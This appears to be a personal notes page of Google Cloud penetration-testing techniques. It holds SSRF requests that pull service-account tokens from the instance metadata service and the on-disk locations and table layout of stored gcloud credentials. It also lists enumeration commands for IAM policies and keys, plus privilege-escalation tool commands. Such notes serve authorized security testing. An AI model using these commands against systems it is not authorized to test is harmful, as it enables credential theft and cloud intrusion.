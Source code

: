 ```yaml
---
layout: notes
permalink: /notes/cloud/google/
title: Google Cloud Pentesting Notes
---
```


# Google Cloud Pentesting Notes

URLs:
- Google Workspace API : https://www.googleapis.com/
- Mail API : https://mail.googleapis.com/*
- Drive API : https://drive.googleapis.com/*
- Calendar API : https://calendar.googleapis.com

### SSRF
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/233003792018-compute@developer.gserviceaccount.com/token
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
curl "http://metadata.google.internal/computeMetadata/v1/project/attributes/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
curl "http://metadata.google.internal/computeMetadata/v1/instance/attributes/?recursive=true&alt=text" -H "Metadata-Flavor: Google"

http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

### Metadata endpoints
```bash
/computeMetadata/v1/project/numeric-project-id	#The project number assigned to your project.
/computeMetadata/v1/project/project-id	#The project ID assigned to your project.
/computeMetadata/v1/instance/zone	#The zone the instance is running in.
/computeMetadata/v1/instance/service-accounts/default/aliases	#None
/computeMetadata/v1/instance/service-accounts/default/email	#The default service account email assigned to your project.
/computeMetadata/v1/instance/service-accounts/default/	#Lists all the default service accounts for your project.
/computeMetadata/v1/instance/service-accounts/default/scopes	#Lists all the supported scopes for the default service accounts.
/computeMetadata/v1/instance/service-accounts/default/token	#Returns the auth token that can be used to authenticate your application to other Google Cloud APIs.
```

### Configure Initial Compromised Service Account Credential:
```
gcloud auth activate-service-account --key-file alert-nimbus-335411-4ee19bc40a65.json
```

### CLI Access
```
gcloud auth login
```
Get the information about authenticated accounts with gcloud cli
```
gcloud auth list
```
Login with Service Account ( App ID + JSON Key File )
```
gcloud auth activate-service-account --key-file KeyFile
```

### Stored Credentials
Windows
```
C:\Users\UserName\AppData\Roaming\gcloud\
```
Linux
```
/home/UserName/.config/gcloud/
```

### Content of Stored Google Cloud CLI Secrets
```bash
#Database : access_tokens.db:
Table: access_tokens
Columns : account_id, access_token, token_expiry, rapt_token

#Database : credentials.db:
Table: credentials
Columns: account_id, value
```

## Enumeration
login via service account
```
gcloud auth activate-service-account --key-file devops-srvacc-key.json
```
List of Active User / Service accounts in Google Cloud CLI:
```
gcloud auth list
```
### Google Cloud CLI Configuration

Get the configuration of Gcloud CLI[ user / service account & project ]:
```
gcloud config list
```

### GCP Organizations

List of organizations, logged-in user / service account can access:
```
gcloud organizations list
```
Lists of iam policy attached to the specified organization:
```
gcloud organizations get-iam-policy [OrganizationID]
```

### GCP Projects

List of projects in an organization:
```
gcloud projects list
```
Lists of iam policy attached to the specified project:
```
gcloud projects get-iam-policy [ProjectID]
```

### GCP Service Account

List all of service accounts in a project:
```
gcloud iam service-accounts list
```
> iam in email - means it was created by the user, otherwise - it is default service account

Get the IAM policy for a service account:
```
gcloud iam service-accounts get-iam-policy [Service Account Email ID]
```
List of credential [keys] for a service account:
```
gcloud iam service-accounts keys list --iam-account [service Account Email ID]
```

### GCP Pre-defined Role 

Lists of roles in an origination / project:
```
gcloud iam roles list
```
Lists of permissions in a specified role:
```
gcloud iam roles describe [roles/owner]
```
### GCP Custom Role 

Lists of roles in an origination / project:
```
gcloud iam roles list --project [alert-nimbus-335411]
```
Lists of permissions in a specified role:
```
gcloud iam roles describe [RoleName] --project [alert-nimbus-335411]
```

## References and more techniques
[Hacking the Cloud](https://hackingthe.cloud/)

## Automated tools
[Cloud Enum](https://github.com/initstring/cloud_enum/)

Perform authenticated enumeration using “gcp_enum” script. 

[gcp_enum](https://gitlab.com/gitlab-com/gl-security/threatmanagement/redteam/redteam-public/gcp_enum)
```
./gcp_enum.sh
```
Identity possible privilege escalation ways in gcp project. 

[GCP-IAM-Privilege-Escalation](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation)
```
python3 enumerate_member_permissions.py -p alert-nimbus-335411
python3 check_for_privesc.py
```
Exploit identified misconfigured iam permission for privilege escalation.
```
python3 ExploitScripts/iam.roles.update.py
```

## Other tools

### Gain Access 
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute)

[ip2provider](https://github.com/oldrho/ip2provider)

### Enumeration
[ScoutSuite](https://github.com/nccgroup/ScoutSuite)

[gcp-iam-role-permissions](https://github.com/darkbitio/gcp-iam-role-permissions)

[gcp-iam-viz](https://github.com/bartcode/gcp-iam-viz)

[cartography](https://github.com/lyft/cartography)

[gcp_misc](https://gitlab.com/gitlab-com/gl-security/threatmanagement/redteam/redteam-public/gcp_misc)

[gcp_firewall_enum](https://gitlab.com/gitlab-com/gl-security/threatmanagement/redteam/redteam-public/gcp_firewall_enum)

[cloud-service-enum](https://github.com/NotSoSecure/cloud-service-enum)

### Priv Esc
[gcploit](https://github.com/dxa4481/gcploit)

[gcp_scanner](https://github.com/google/gcp_scanner)

[PurplePanda](https://github.com/carlospolop/PurplePanda)

### Persistence and Lateral
[patchy](https://github.com/rek7/patchy)